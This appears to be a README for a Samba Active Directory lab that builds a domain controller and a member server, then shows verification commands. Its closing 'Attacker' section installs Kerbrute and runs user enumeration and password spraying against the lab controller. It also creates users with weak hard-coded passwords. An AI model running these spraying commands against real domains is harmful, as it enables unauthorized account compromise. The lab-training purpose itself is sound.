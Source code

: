 # Samba

## Domain Controller

1. Set up the hostname:
	```bash
	hostnamectl set-hostname dc1
	```

2. Add the following line in the `/etc/hosts` file: 
		`192.168.122.10 dc1.polaris.org dc1`

3. Change to a static IP address in `/etc/netplan/50-cloud-init.yaml`:  
    ```
    addresses: [192.168.122.10/24]
    gateway4: 192.168.122.1
    nameservers:
    	addresses: [192.168.122.10, 8.8.8.8]
     ```
4. Save the changes:
    ```bash
    sudo netplan apply
    ```

5. Follow the installation from the Samba documentation:
     ```bash
    sudo -s
    wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	/usr/local/samba/bin/samba-tool domain provision --use-rfc2307 --interactive
	```
	Add the lines to the `etc/resolv.conf` file:  
	
        search polaris.org
        nameserver 192.168.122.10
	  
	```bash
	systemctl disable --now systemd-resolved.service
	cp /usr/local/samba/private/krb5.conf /etc/krb5.conf
	# Start samba:
 	/usr/local/samba/sbin/samba
	```

6a. Add the lines to the `etc/resolv.conf`:
	```search polaris.org
	   nameserver 192.168.122.10```

6b. systemctl disable --now systemd-resolved.service

7. Start samba: `/usr/local/samba/sbin/samba`

8. Added aditional users to the domain:
   ```bash
	/usr/local/samba/bin/samba-tool user create Alice Alice1234
	/usr/local/samba/bin/samba-tool user create Bob Apolo1969
   ```

## Testing configuration

### Verifying the File Server
1.  `/usr/local/samba/bin/smbclient -L localhost -N`
2. `/usr/local/samba/bin/smbclient //localhost/netlogon -UAdministrator -c 'ls'`

### Verifying DNS

1. `host -t SRV _ldap._tcp.polaris.org.`
2. `host -t SRV _kerberos._udp.polaris.org.`
3. `host -t A dc1.polaris.org.`

### Verifying Kerberos

1. `kinit administrator`
2. `klist`

## Domain Member

1. Set the DNS server IP and AD DNS domain in the `/etc/resolv.conf`:

		nameserver 192.168.122.10
		search polaris.org
3. To configure Kerberos on the domain member, set the following in the `/etc/krb5.conf` file:

        [libdefaults]
            		default_realm = POLARIS.ORG
            		dns_lookup_realm = false
            		dns_lookup_kdc = true

4. Follow the installation from the Samba documentation:
     ```bash
	sudo -s
	wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	 ```
5. Configuring the `autorid` Back End:

		[global]
		       security = ADS
		       workgroup = POLARIS
		       realm = POLARIS.ORG

		       log file = /var/log/samba/%m.log
		       log level = 1

		       template shell = /bin/bash
			   template homedir = /home/%U

		       # Default ID mapping configuration using the autorid
		       # idmap backend. This will work out of the box for simple setups
		       # as well as complex setups with trusted domains.
		       # NOTE: You cannot and must not use 'winbind use default domain = yes'
		       #       with the autorid idmap backend. This means that your users
		       #       will need to login using the format 'DOMAIN\username'.
		       #       If you want your users to login just using 'username' then
		       #       you cannot use the 'autorid' idmap backend.
		       idmap config * : backend = autorid
		       idmap config * : range = 10000-24999999

6. Reload the Samba configuration:

        /usr/local/samba/bin/smbcontrol all reload-config

7. Map the domain accounts to a local account to execute file operations on the domain member's file system as a different user than the account that requested the operation on the client:

    * Add the following parameter to the `[global]` section of your smb.conf file:
    
    		username map = /usr/local/samba/etc/user.map
    * Create the `/usr/local/samba/etc/user.map` file with the following content:
    
    		!root = POLARIS\Administrator

8. To join the host to an Active Directory (AD), enter:

		/usr/local/samba/bin/net ads join -U administrator

		OR

		/usr/local/samba/bin/samba-tool domain join samdom.example.com MEMBER -U administrator

9. Start the `smbd`, `nmbd` and `winbindd`  services to have a fully functioning Unix domain member:

    **[Note]:** If you do not require Network Browsing, you do not need to start the nmbd service on a Unix domain member.

    For simplicity, only `smbd` and `winbindd` services will be started:
    
        /usr/local/samba/sbin/smbd
        /usr/local/samba/sbin/winbindd
        
## Testing configuration

### Verifying DNS resolution

1. `nslookup dc1.polaris.org`
2. `host dc1.polaris.org`


### Resolving SRV Records
1.   
	    $ nslookup  
	    > set type=SRV  
	    > _ldap._tcp.polaris.org
    
2. `host -t SRV _ldap._tcp.polaris.org`


### Verifying the Winbindd Connectivity

1. `/usr/local/samba/bin/wbinfo --ping-dc`

## Attacker

### Requesites  installation

1. Install Kerbrute:

		wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

2. Rename the the binary downloaded:

		mv kerbrute_linux_amd64 kerbrute

3. Give executable permissions to kerbrute:

		chmod +x kerbrute	


### User Enumeration
1. Enumerate the users in the Active Directory Domain Controller using a users list

        ./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10

### Password Spraying
1. Perform an horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. 

        ./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Passw0rd
